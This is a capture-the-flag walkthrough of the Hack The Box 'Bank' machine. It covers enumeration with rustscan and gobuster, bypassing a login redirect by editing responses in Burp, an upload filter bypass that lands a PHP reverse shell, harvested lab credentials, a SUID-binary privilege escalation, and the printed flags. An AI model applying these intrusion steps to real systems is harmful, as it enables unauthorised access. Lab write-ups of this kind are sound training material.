







# Bank (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.29.200 -- -sC -sV -o port_scan


PORT   STATE SERVICE REASON  VERSION                                                                                                                                               
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  syn-ack ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Examine Port 80 - Apache2 Server



When looking at the website, we can only see the Apache2 Default Page. This happens, if you don't modify the `index.html` file in the root directory of apache. It probably means, that we first have to find the correct directory on the webserver. We can do that by using a tool such as gobuster:

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u 10.129.29.200

/.htaccess (Status: 403)
/.htaccess.asp (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.asp (Status: 403)
/server-status (Status: 403)
```

So no luck with gobuster.... Seems like a dead end. At this point I was super stuck. Been researching things for many hours but without any result for this machine.

### Examine Port 52 - DNS Server

As we got no hint how to proceed on Port 80, let's take a look at the DNS server. We can try a few things with nslookup:

```
> SERVER 10.129.29.200
Default server: 10.129.29.200
Address: 10.129.29.200#53
```

```
> 10.129.29.200
** server can't find 200.29.129.10.in-addr.arpa: NXDOMAIN
```

```
> bank.htb
Server:         10.129.29.200
Address:        10.129.29.200#53

Name:   bank.htb
Address: 10.129.29.200
```
But this does not give us any additional info, besides the DNS name of the IP, namely `bank.htb`. (this was pretty guessy, but as a HTB player, you should know the naming conventions). Maybe it's some kind of HTTP VirtualHost Routing. 

### Back to Port 80 - DNS name

First let's add the DNS server to our `/etc/resolv.conf` file. 

```
nameserver 10.129.29.200
```

Now we should be able to access `bank.htb` via the browser. Alternatively, you could also add the IP with the specific name into the `/etc/hosts` file.

Accessing `http://bank.htb` shows us following:



We could immediately start bruteforcing the username/password or use SQLMap on it, but let's first enumerate the new website.

Again we use gobuster for that:

```
gobuster dir -u "http://bank.htb" -w /usr/share/wordlists/dirb/big.txt -x php

/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/assets (Status: 301)
/inc (Status: 301)
/index.php (Status: 302)
/login.php (Status: 200)
/logout.php (Status: 302)
/server-status (Status: 403)
/support.php (Status: 302)
/uploads (Status: 301)
```

We find several php files (login.php which we already know, logout.php, index.php and support.php). As well as a directory called uploads. This seems suspicious. Let's check out the php files, to see if we can use one to upload something.

## Exploitation

The problem is, that both, support.php and index.php, forward to login.php. However, there is a nice trick to circumvent this by using burpsuite! 



As response we get following:

```
HTTP/1.1 302 Found
Date: Sun, 17 Jan 2021 14:32:57 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
location: login.php
Content-Length: 7322
Connection: close
Content-Type: text/html
```

When we exchange the `302 Found` with `200 OK`, then we can trick our browser to not forward to the location header `login.php`.



We can do the same for support.php:


Here we can see the upload functionality that we were looking for!
Let's try to upload a php reverse shell.



Unfortunately, it tells us that we can only upload images. But there is a nice way to bypass upload filters, if they are not implemented properly.

After trying some techniques and still not having any success, I took a closer look at the server respone.


The source code contained a debug comment, stating that php files should be named `.htb`, if you wanna upload them for debug purposes. So I renamed my .php file and uploaded it again. This time it worked!



Now when clicking on the Attachment link (or accessing the file in the uploads directory), we get a reverse shell:


Now that we have access to the server, we can obtain the user flag.

Afterwards, can search for valuable files that help us at escalating privileges. In the directory `/var/www/bank`, I found a file called `bankreports.txt`, that we have not yet seen.

```
+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$
```

Maybe this is the password for the user chris on the machine. Let's try it. Unfortunately, it's not working. But we can try it on the login.php website. Maybe we can gain more information there.


We now have access to Chris' bank account. Problem is that this won't help bring us any further.
After searching for a while, I saw a file called 'user.php' in the directory `/var/www/bank/inc`.
It contains the mysql login details of root:

```
 $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#",
```

 Maybe, root has used the same password for the server. Let's try to login as root. Does not work as well. Seems like a dead end.

 Next step was to check for files with the SUID bit set.

 ```
 $ find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
```

The binary `var/htb/bin/emergency` seemed to be a bit suspicious. I executed it and obtained root privileges (still not sure what the purpose of this binary should have been :D). Now we can also get the root flag!

## Post-Exploitation

User flag
```
$ cat user.txt
872a3bf9df963d168aeb9985f6910e43
```

Root flag
```
# cat root.txt
833ebe63c00b129b3373c3824f133792
```